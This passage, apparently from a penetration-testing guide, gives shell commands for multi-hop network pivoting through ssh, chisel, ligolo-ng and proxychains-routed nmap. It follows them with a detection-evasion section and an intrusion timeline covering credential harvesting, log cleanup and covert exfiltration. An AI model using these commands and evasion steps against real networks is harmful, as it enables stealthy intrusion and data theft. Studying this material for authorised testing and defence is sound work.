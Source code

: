### 11.3 Cascade Tunneling Example

```bash
# Hop 1: SSH tunnel to DMZ host
ssh -D 9050 user@dmz_host

# Hop 2: Chisel through first tunnel
proxychains chisel client internal_host:8080 R:socks2

# Hop 3: Ligolo-ng through second tunnel
proxychains ./agent -connect deep_internal:11601

# Hop 4: Direct tool access through all hops
proxychains nmap -sT critical_network_range
```

## 12. Detection Evasion and Operational Security
:::note
Evasion strategies assume prior knowledge of defensive monitoring systems and network policies in your environment. Adapt timing, protocol, and behavioral parameters to maximize stealth in your particular context.
:::
### 12.1 Operational Timeline and Evasion Strategy

The following timeline illustrates optimal timing and sequencing of evasion techniques throughout an operation:

```mermaid
gantt
    title Detection Evasion Timeline
    dateFormat  HH:mm
    axisFormat %H:%M
    
    section Phase 1: Reconnaissance
    Network Discovery     :recon1, 09:00, 10:00
    Service Enumeration   :recon2, after recon1, 11:00
    Vulnerability Assessment :recon3, after recon2, 12:00
    
    section Phase 2: Initial Access
    Business Hours Check  :access1, 13:00, 13:15
    Exploit Deployment    :access2, after access1, 13:45
    Persistence Setup     :access3, after access2, 14:15
    
    section Phase 3: Pivot Establishment
    Traffic Analysis      :pivot1, 14:30, 14:45
    Tunnel Setup (HTTPS)  :pivot2, after pivot1, 15:15
    Connection Testing    :pivot3, after pivot2, 15:30
    
    section Phase 4: Lateral Movement
    Credential Harvesting :lateral1, 15:45, 16:00
    Internal Reconnaissance :lateral2, after lateral1, 16:30
    Secondary Compromise  :lateral3, after lateral2, 17:00
    
    section Phase 5: Stealth Maintenance
    Log Cleanup          :stealth1, 17:15, 17:30
    Traffic Normalization :stealth2, 17:30, 18:00
    Persistence Validation :stealth3, after stealth2, 18:15
    
    section Phase 6: Data Exfiltration
    Target Identification :exfil1, 08:00, 08:30
    Staged Collection    :exfil2, after exfil1, 09:00
    Covert Transfer      :exfil3, after exfil2, 10:00
```
